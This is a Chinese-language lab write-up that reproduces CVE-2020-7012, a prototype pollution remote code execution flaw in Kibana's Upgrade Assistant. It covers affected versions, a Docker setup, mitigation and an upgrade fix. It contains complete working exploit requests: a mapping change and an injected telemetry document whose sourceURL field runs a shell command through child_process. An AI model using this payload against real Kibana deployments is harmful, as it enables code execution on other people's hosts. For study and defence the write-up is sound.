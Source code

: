 # Kibana 7.6.2 upgrade-assistant-telemetry 原型污染导致远程代码执行 CVE-2020-7012

## 漏洞描述

Kibana 是 Elasticsearch 的开源数据可视化仪表盘工具。

Kibana 6.7.0 至 6.8.8 版本以及 7.0.0 至 7.6.2 版本中的 Upgrade Assistant 功能存在原型污染漏洞。具有 Kibana 索引写入权限的认证用户可以插入恶意数据，导致 Kibana 执行任意代码。攻击者可能利用此漏洞以 Kibana 进程的权限在主机系统上执行代码。

参考链接：

- https://hackerone.com/reports/852613
- https://discuss.elastic.co/t/elastic-stack-6-8-9-and-7-7-0-security-update/235571
- https://nvd.nist.gov/vuln/detail/CVE-2020-7012

## 漏洞影响

```
ElasticSearch Kibana >=6.7.0，<=6.8.8
ElasticSearch Kibana >=7.0.0，<=7.6.2
```

## 环境搭建

Vulhub 启动 Kibana 7.6.2 和 Elasticsearch 7.6.2：

```shell
docker compose up -d
```

环境启动后，访问 `http://your-ip:5601` 即可看到 Kibana 的默认首页。

![](images/Kibana%207.6.2%20upgrade-assistant-telemetry%20原型污染导致远程代码执行%20CVE-2020-7012/image-20250311093003031.png)

## 漏洞复现

远程代码执行漏洞发生在 Kibana 从 Elasticsearch 读取带有 `upgrade-assistant-telemetry` 属性的保存对象时。你可以通过直接向 Elasticsearch 发送数据或通过 Kibana 提交查询来利用此漏洞。代码执行将在 Kibana 重启后或数据收集时（具体时间未知）发生。

首先进入 Kibana UI 的开发者工具（URL 为 `http://your-ip:5601/app/kibana#/dev_tools/console`），然后发送以下请求来修改 Kibana 映射，以允许自定义的 `upgrade-assistant-telemetry` 文档：

```json
PUT /.kibana_1/_mappings
{
  "properties": {
    "upgrade-assistant-telemetry": {
      "properties": {
        "constructor": {
          "properties": {
            "prototype": {
              "properties": {
                "sourceURL": {
                  "type": "text",
                  "fields": {
                    "keyword": {
                      "type": "keyword",
                      "ignore_above": 256
                    }
                  }
                }
              }
            }
          }
        },
        "features": {
          "properties": {
            "deprecation_logging": {
              "properties": {
                "enabled": {
                  "type": "boolean",
                  "null_value": true
                }
              }
            }
          }
        },
        "ui_open": {
          "properties": {
            "cluster": {
              "type": "long",
              "null_value": 0
            },
            "indices": {
              "type": "long",
              "null_value": 0
            },
            "overview": {
              "type": "long",
              "null_value": 0
            }
          }
        },
        "ui_reindex": {
          "properties": {
            "close": {
              "type": "long",
              "null_value": 0
            },
            "open": {
              "type": "long",
              "null_value": 0
            },
            "start": {
              "type": "long",
              "null_value": 0
            },
            "stop": {
              "type": "long",
              "null_value": 0
            }
          }
        }
      }
    }
  }
}
```

![](images/Kibana%207.6.2%20upgrade-assistant-telemetry%20原型污染导致远程代码执行%20CVE-2020-7012/image-20250311103327247.png)

然后发送第二个请求来注入恶意的 telemetry 文档：

```json
PUT /.kibana_1/_doc/upgrade-assistant-telemetry:upgrade-assistant-telemetry
{
  "upgrade-assistant-telemetry": {
    "ui_open.overview": 1,
    "ui_open.cluster": 1,
    "ui_open.indices": 1,
    "constructor.prototype.sourceURL": "\u2028\u2029\nglobal.process.mainModule.require('child_process').exec('touch /tmp/awesome_poc')"
  },
  "type": "upgrade-assistant-telemetry",
  "updated_at": "2020-04-17T20:47:40.800Z"
}
```

![](images/Kibana%207.6.2%20upgrade-assistant-telemetry%20原型污染导致远程代码执行%20CVE-2020-7012/image-20250311102813742.png)

最后，你需要等待一段时间让 payload 执行。如果不想等待，可以通过 `docker compose restart kibana` 重启 Kibana 服务器，恶意代码将在服务重启后执行。

命令将在服务重启后执行：

```
docker compose exec kibana ls -al /tmp
```

![](images/Kibana%207.6.2%20upgrade-assistant-telemetry%20原型污染导致远程代码执行%20CVE-2020-7012/image-20250311103144864.png)

**重要提示：漏洞利用后，Kibana 将崩溃且无法启动。你需要从 ElasticSearch 中删除 `.kibana_1` 索引才能恢复功能。**

删除 `.kibana_1` 并重启服务：

```
docker compose exec elasticsearch curl -XDELETE http://localhost:9200/.kibana_1
docker compose restart kibana
```

## 漏洞修复

用户应升级到 Kibana 版本 7.7.0 或 6.8.9。无法升级的用户可按照以下说明禁用升级助手：

- Kibana 版本 6.7.0 和 6.7.1 可以在 `kibana.yml` 文件中设置 `upgrade_assistant.enabled: false`
- Kibana 版本从 6.7.2 开始，可以在 `kibana.yml` 文件中设置 `xpack.upgrade_assistant.enabled: false`
